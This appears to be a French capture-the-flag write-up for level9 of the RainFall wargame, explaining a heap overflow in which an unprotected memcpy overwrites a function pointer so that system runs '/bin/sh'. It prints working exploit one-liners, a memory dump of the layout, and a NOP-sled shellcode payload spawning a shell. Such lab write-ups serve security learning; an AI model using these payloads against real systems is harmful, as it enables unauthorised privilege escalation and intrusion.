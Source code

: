 (Noter mes annotations entre les lignes pour s'imaginer comment on veut agencer la mémoire).

On calcule la distance entre le début du stockage et le pointeur sur fonction : 74 - 0c = 104

On obtient donc :
```
level9@RainFall:~$ ./level9 $(python -c "print('a' * 104 + '\x60\x60\xd8\xb7' + '\x74\xa0\x04\x08;/bin/sh')")
sh: 1: t�: not found
$ whoami
bonus0
```

Même méthode mais avec un ordre différent :
```
./level9 $(python -c "print('a' * 108 + '\x7d\xa0\x04\x08' + '_\x60\x60\xd8\xb7;/bin/sh')")
```

On peut vérifier en mettant un pointeur à `b *0x08048698`.

Explication pour : `./level9 $(python -c "print('a' * 104 + '\x60\x60\xd8\xb7' + '\x74\xa0\x04\x08;/bin/sh')")`

On souhaite que les 4 bytes de la deuxième adresse qui pointe vers les valeurs en mémoire soit écrit dans la position du
pointeur sur fonction utilisé dans le code. Donc on veut écrire à partir du 108ème caractère (à noter que l’overflow
commence à 104). Si on commence à 104 on peut écrire l’adresse de la fonction system (1er adresse \xb3\xfd…) sur les
bytes 104 à 107 inclus.

```
0x804a070:    0x05  0x00  0x00  0x00  0x71  0x00  0x00  0x00
                                        60    60    d8    b7
0x804a078:    0x48  0x88  0x04  0x08  0x00  0x00  0x00  0x00
                74    a0    04    08    3b    2f    62     …
0x804a080:    0x00  0x00  0x00  0x00  0x00  0x00  0x00  0x00
```

Une fois qu’on a préparé l’argument comme suit, memcpy (non protégé) va appliquer notre injection de bytes dans la mémoire,
le pointeur de fonction va s'exécuter lançant la fonction system grâce à notre agencement et prendre la suite en argument ce
qui explique l’erreur d’argument “sh: 1: }�_ط: not found” avant le readline de shell.

Ressources :

 - https://www.youtube.com/watch?v=qpyRz5lkRjE
 - https://www.youtube.com/watch?v=1S0aBV-Waeo 

## Méthode avec shellcode : 

Ceci est un exemple via injection de shellcode, on peut qualifier cette méthode d'"universel". On utilise ce shellcode : https://www.exploit-db.com/exploits/13357

```
export ICE=$(python -c 'print "\x90" * 1000 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";')
```
